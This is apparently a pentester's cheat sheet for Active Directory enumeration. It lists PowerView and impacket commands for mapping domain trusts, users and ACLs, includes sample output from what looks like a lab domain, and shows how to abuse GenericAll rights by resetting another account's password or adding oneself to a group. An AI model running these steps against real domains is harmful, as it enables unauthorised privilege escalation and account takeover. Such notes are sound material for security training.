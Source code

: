```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ad_Enumeration
---
```


<span style="font-size: 35px; color:red"><b>Active Directory Enumeration</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumerate the forest</b></span>
```
nltest /trusted_domains
```
OR
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

OR with powerview:
```
Get-DomainTrust -API
```

OR
```
Get-DomainTrust
```

to Get details about the domain:
```
Get-DomainUser -Domain <domain>
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumerate Users</b></span>
<span style="color:red"><b>From Linux:</b></span>
Queries target domain for users and users data.
```shell
GetADUsers.py -all <DOMAIN>/<USER_NAME> -dc-ip <IP>
```

<span style="color:red"><b>From Windows:</b></span>
Prints the often-lengthy list of ACEs (<span style="color:red"><b>From Linux:</b></span>Access Control Entries</span>) applied to the object.
```powershell
Get-ObjectAcl -Identity <user>
```

To see usernames or group from SID:
```powershell
ConvertFrom-SID <SID_EXAMPLE_S-1-5-21-3776646582-2086779273-4091361643-553>
```
To do the same thing but for all SIDs dumped from _Get-ObjectAcl_:
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```
(to get only the ones with GenericAll, add `| findstr -i "GenericAll ObjectDN"` at the ent of the block above)

To emunerate all ACEs for all domain users:
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
I.E. OUTPUT:
```
AceType               : AccessAllowed
ObjectDN              : CN=TestService1,OU=prodUsers,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3776646582-2086779273-4091361643-1604
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
```
Means that the current user has GenericAll access (fullcontrol) to the TestService1 account.
In this case, you can change the password of the testService1 account:
```powershell
net user <CN_NAME> <PASSWORD> /domain
```
You can do the same using _ForceChangePassword_ and <span style="color:red">AllExtendedRights</span> access rights.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumerate Groups</b></span>

Enumerate all domain groups that our current user has explicit access rights to:
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
(Check for AceType: AccessAllowed, CN= something and Identity = user in the output)
Add yourself to the group:
```powershell
net group testgroup <user> /add /domain
```

